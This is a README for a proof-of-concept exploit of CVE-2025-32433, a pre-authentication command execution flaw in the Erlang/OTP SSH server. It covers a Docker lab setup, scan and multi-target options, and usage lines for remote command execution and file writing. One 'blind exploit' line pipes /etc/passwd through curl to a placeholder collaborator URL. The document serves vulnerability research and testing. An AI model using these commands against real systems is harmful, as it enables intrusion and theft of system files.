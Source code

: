 # CVE-2025-32433: Erlang SSH Server Pre-Authentication Command Execution

![Header Image Placeholder](img/header.png)

## Overview
This repository contains a proof-of-concept (PoC) for CVE-2025-32433, a vulnerability in the Erlang SSH server implementation that allows for pre-authentication command execution. The vulnerability affects Erlang/OTP versions 26.2.5.10 and potentially earlier versions.

## Technical Details
The vulnerability exists in the Erlang SSH server implementation, specifically in the handling of SSH connections and authentication mechanisms. The server accepts and processes SSH_MSG_CHANNEL_REQUEST messages before authentication is completed, allowing for arbitrary command execution.

### Affected Versions
- Erlang/OTP 26.2.5.10
- Potentially earlier versions

### Vulnerability Type
- Pre-authentication Command Execution
- CWE-306: Missing Authentication for Critical Function

## Setup Instructions

### Prerequisites
- 🐍 Python 3.x
- 🐳 Docker
- 🐳 Docker Compose

### Building the Vulnerable Environment
```bash
# Clone the repository
git clone https://github.com/Vip3r-MC/VulnVault.git
cd VulnVault/cves/CVE-2025-32433/

# Build and start the vulnerable server
docker-compose up --build
```

The vulnerable SSH server will be accessible on port 2222.

## Testing the Vulnerability

### Using the Python Exploit
Use the CVE-2025-32433.py script to test or exploit the SSH vulnerability:

```bash
python3 CVE-2025-32433.py -H <host> [-p <port>] [-t <timeout>] [-v] [-T <targets_file>] [-c <command> | -f --path <path> --content <content>]
```

Example Usage:
- **Scan a single host on default port (2222):**
```bash
python3 CVE-2025-32433.py -H 192.168.1.10
```

- **Specify a different SSH port (e.g., 2022):**
```bash
python3 CVE-2025-32433.py -H 192.168.1.10 -p 2022
```

- Run a custom command:
```bash
python3 CVE-2025-32433.py -H 192.168.1.10 -c "whoami"
```

- **Write a file to a remote path with custom content:**
```bash
python3 CVE-2025-32433.py -H 192.168.1.10 -f --path /tmp/pwned.txt --content "exploit successful"
```

- **Blind Exploit (command below):**
This blind exploit example demonstrates a remote code execution that sends `/etc/passwd` to a remote server via `curl`. The command captures the contents of `/etc/passwd` and sends it as a POST request to a collaborator URL.
```bash
python3 CVE-2025-32433.py -c "cat /etc/passwd | tee /dev/stderr | curl -X POST https://<collaborator-url>/exploit --data-binary @-" -H 127.0.0.1
```

- **Scan multiple targets from a list:**
```bash
python3 CVE-2025-32433.py -T targets.txt
```

- **Verbose output for debugging:**
```bash
python3 CVE-2025-32433.py -H 192.168.1.10 -v
```

### Command Line Options
- `-H, --host`: Target host IP or domain (default: localhost)
- `-p, --port`: Target SSH port (default: 2222)
- `-t, --timeout`: Connection timeout in seconds (default: 5)
- `-T, --targets`: File containing list of targets (one per line, format: host[:port]).
- `-v, --verbose`: Enable verbose output
- `-c, --command`: Custom command to execute
- `-f, --file`: Enable file writing mode.
- `--path`: Path on target to write the file (default: /test.txt).
- `--content`: Content to write into the file (default: pwned).

## Expected Behavior
- The SSH server should accept connection attempts
- The server will process commands before authentication
- All commands will be executed with the privileges of the Erlang process
- The server will respond with command output or error messages

## Mitigation
- Update to the latest version of Erlang/OTP
- Implement proper authentication checks before processing commands
- Restrict SSH access to trusted networks only
- Monitor for unauthorized access attempts

## Disclaimer
> [!CAUTION]
> This PoC is provided for educational and research purposes only. Use it responsibly and only in controlled environments. The authors are not responsible for any misuse or damage caused by this code.

## References
- [CVE-2025-32433 Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-32433)
- [Erlang/OTP Security Advisory](https://www.erlang.org/security)
- [Original PoC](https://platformsecurity.com/blog/CVE-2025-32433-poc)
